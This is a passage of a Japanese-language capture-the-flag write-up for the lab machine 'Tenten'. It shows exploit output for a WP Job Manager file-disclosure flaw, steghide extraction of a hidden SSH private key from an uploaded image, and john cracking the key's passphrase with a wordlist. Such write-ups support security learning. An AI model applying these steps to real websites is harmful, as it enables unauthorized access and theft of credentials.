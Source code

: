 ```bash
Author: Evangelos Mourikis
Blog: https://vagmour.eu
Plugin URL: http://www.wp-jobmanager.com
Versions: <=0.7.25

Enter a vulnerable website: http://tenten.htb
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg

```
![[Pasted image 20241227111917.png]]

ステガノグラフィーかもしれないので、どのような情報が含まれているのかをみる。
秘密鍵が含まれているらしい。
```bash
└──╼ [★]$ sudo steghide info *.jpg
"HackerAccessGranted.jpg":
  format: jpeg
  capacity: 15.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "id_rsa":
    size: 1.7 KB
    encrypted: rijndael-128, cbc
    compressed: yes

```

抽出する。
パスワードは特にないので、Enter押すだけで大丈夫
```bash
└──╼ [★]$ sudo steghide extract -sf *.jpg
Enter passphrase: 
wrote extracted data to "id_rsa".
```

出力された`id_rsa`がどのようなRSA鍵であるかを解析するために、`john`を用いて複合する。複合を行うには、まず現在の`id_rsa`ファイルを`.john`形式に変換する必要がある。
そのため、以下のコードで、rsaを.johnに変えるためのスクリプトを検索する。出力された`/usr/share/john/ssh2john.py`を利用する。このスクリプトを使うことで、取得したRSA暗号を`john`で解析可能な`.john`形式に変換できる。
```bash
sudo find / -iname *2john* -type f 2>/dev/null
```

johnで解析したら、パスワードが「superpassword」であることがわかった。
```bash
└──╼ [★]$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt rsa.john
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
superpassword    (id_rsa)     
1g 0:00:00:00 DONE (2024-12-26 10:03) 1.724g/s 1344Kp/s 1344Kc/s 1344KC/s superram..supermoy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
